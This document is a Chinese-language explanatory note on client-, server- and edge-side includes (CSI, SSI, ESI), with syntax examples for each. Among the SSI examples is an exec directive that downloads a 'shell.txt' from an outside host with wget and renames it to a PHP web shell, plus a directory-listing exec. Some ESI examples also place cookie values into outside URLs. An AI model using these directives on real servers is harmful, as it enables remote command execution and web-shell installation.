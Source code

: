 **CSI**(Client Side Includes)
通过iframe、javascript、ajax等方式将另外一个页面的内容动态包含进来.这样来实现动态化.

```
<iframe src='http://examle/index.php' border='0'></iframe>
 ```
该方法有一个缺点，客户端缓存问题可能导致更新后不能及时生效！要解决不能及时生效的问题,

**SSI**(Server Side Includes)
通过注释行SSI命令加载不同模块，构建为html，实现整个网站的内容更新.通过SSI调用各模块的对应文件，最后组装为html页面，需要服务器模块支持(具体配置本文不做详述)，比如：apache服务器需要开启mod_include模块。

```
<!--#exec cmd="ls" -->
<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->
<!--#config errmsg="File not found, informs users and password"-->
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="DOCUMENT_NAME" -->
<!--#fsize file="ssi.shtml" -->
<!--#include file="example.php"-->
```
[Click me](http://www.htmlgoodies.com/beyond/webmaster/article.php/3473341/SSI-The-Include-Command.htm)

**ESI**(Edge Side Includes)
通过使用简单的标记语言来对那些可以加速和不能加速的网页中的内容片断进行描述，每个网页都被划分成不同的小部分分别赋予不同的缓存控制 策略，使Cache服务器可以根据这些策略在将完整的网页发送给用户之前将不同的小部分动态地组合在一起。通过这种控制，可以有效地减少从服务器抓取整个页面的次数，而只用从原服务器中提取少量的不能缓存的片断，因此可以有效降低原服务器的负载，同时提高用户访问的响应时间。与SSI不同的是，ESI多在缓存服务器或代理服务器上执行！
ESI是由Oracle公司和Akamai Technologies公司制定规格，Akamai公司提供对应的信息传送的服务。10多年过去了，还是只属于W3C note。

ESI有7条语句。
1. include
For example,
```
<esi:include src="http://example.com/1.html" alt="http://bak.example.com/2.html" onerror="continue"/>
<esi:include src="http://example.com/ search?query=$(QUERY_STRING{query})"/>
```


2. inline
```
<esi:inline name="URI" fetchable="{yes | no}">
    fragment to be stored within an ESI processor
</esi:inline>
```

3. choose | when | otherwise
```
<esi:choose>
    <esi:when test="...">
        ...
    </esi:when>
    <esi:when test="...">
        ...
    </esi:when>
    <esi:otherwise>
        ...
    </esi:otherwise>
</esi:choose>
```

4. try | attempt | except
```
<esi:try>
    <esi:attempt>
        ...
    </esi:attempt>
    <esi:except>
        ...
    </esi:except>
</esi:try>
```

5. comment
```
<esi:comment text="..." />
```

6. remove
```
<esi:remove> ... </esi:remove>
```

7. vars
```
<esi:vars>
  <img src="http://www.example.com/$(HTTP_COOKIE{type})/hello.gif"/ >
</esi:vars>
```

8. <!--esi ...-->
```<!--esi  
  <p><esi:vars>Hello, $(HTTP_COOKIE{name})!</esi:vars></p>
-->
````
